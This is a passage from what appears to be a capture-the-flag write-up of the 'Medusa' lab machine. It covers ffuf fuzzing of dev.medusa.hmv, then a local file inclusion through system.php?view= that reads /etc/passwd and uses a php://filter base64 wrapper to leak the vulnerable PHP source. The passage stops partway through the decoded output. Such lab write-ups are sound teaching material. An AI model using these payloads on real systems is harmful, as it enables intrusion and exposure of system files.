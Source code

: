 ```bash
┌──(pentester㉿kali)-[~/Medusa/Scans/Service]
└─$ffuf -ic -c -u http://dev.medusa.hmv/files/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt  -e .php,.txt,.html

<SNIP>

index.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
                        [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
system.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 20ms]
readme.txt              [Status: 200, Size: 144, Words: 10, Lines: 4, Duration: 27ms]

:: Progress: [350604/350604] :: Job [1/1] :: 9090 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```
The **system.php** file discovered above look interesting. We can try to parameter fuzzing to see if this file processes any user input.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ffuf -ic -c -u http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0

<SNIP>

view                    [Status: 200, Size: 1452, Words: 14, Lines: 28, Duration: 13ms]
:: Progress: [6453/6453] :: Job [1/1] :: 2325 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
*NB: When fuzzing parameter's name you should try various type of input because some parameters may cause in the response only when some specific values are used. Your main objective will be to test if payloads used to exploit different vulnerabilities such as LFI, Command injection, and SQLi  work on the website*.
We can make a raw request with this parameter and observer the response.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl http://dev.medusa.hmv/files/system.php?view=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<SNIP>
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
spectre:x:1000:1000:spectre,,,:/home/spectre:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:106:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
## Exploitation

It seems that the parameter **view** used by the system.php file is vulnerable to local file inclusion. Since the web server uses PHP language we can utilise PHP wrappers to extend the LFI vulnerability. First, we need to understand the nature of the LFI i.e. which PHP function is used to include files. We can do this by reading the content of the system.php file using the convert.base64-encode PHP wrapper. 
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl http://dev.medusa.hmv/files/system.php?view=php://filter/read=convert.base64-encode/resource=system.php
PD9waHAKCiRmaWxlID0gJF9HRVRbJ3ZpZXcnXTsKaWYoaXNzZXQoJGZpbGUpKQoKewoKaW5jbHVkZSgiJGZpbGUiKTsKCn0KCmVsc2UKCnsKCmluY2x1ZGUoImluZGV4LnBocCIpOwoKfQo/Pgo=
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl -s http://dev.medusa.hmv/files/system.php?view=php://filter/read=convert.base64-encode/resource=system.php | base64 -d
<?php
```